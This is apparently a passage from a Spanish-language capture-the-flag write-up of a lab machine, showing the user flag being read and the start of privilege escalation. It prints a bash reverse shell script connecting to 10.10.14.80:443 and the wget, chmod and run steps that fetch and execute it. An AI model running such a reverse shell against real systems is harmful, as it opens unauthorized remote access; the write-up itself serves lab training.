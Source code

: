 ```shell
    link/ether 00:50:56:94:46:df brd ff:ff:ff:ff:ff:ff
    inet 10.129.227.207/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 3560sec preferred_lft 3560sec
    inet6 dead:beef::250:56ff:fe94:46df/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:fe94:46df/64 scope link 
       valid_lft forever preferred_lft forever

>
```

Podemos encontrar la flag en `/home/woodenk/user.txt`

```shell
> cat /home/woodenk/user.txt
6abbc8d3fda37801....
```

# Privilege Escalation
Como no hay otro usuario a parte de `root`, supongo que no habrá que hacer User Pivoting.

Antes de escalar, voy a mandarme una full tty.

```shell
#!/bin/bash
#rev.sh

bash -c "bash -i >& /dev/tcp/10.10.14.80/443 0>&1"
```

```shell
> wget http://10.10.14.80:8081/rev.sh

> dir
883  rev.sh

> chmod +x rev.sh

> ./rev.sh
```

Me llama la atención que estemos en un grupo llamado `logs`
```shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id   
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```


Encontramos un directorio `/credits` con unos archivos un tanto extraños
```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
```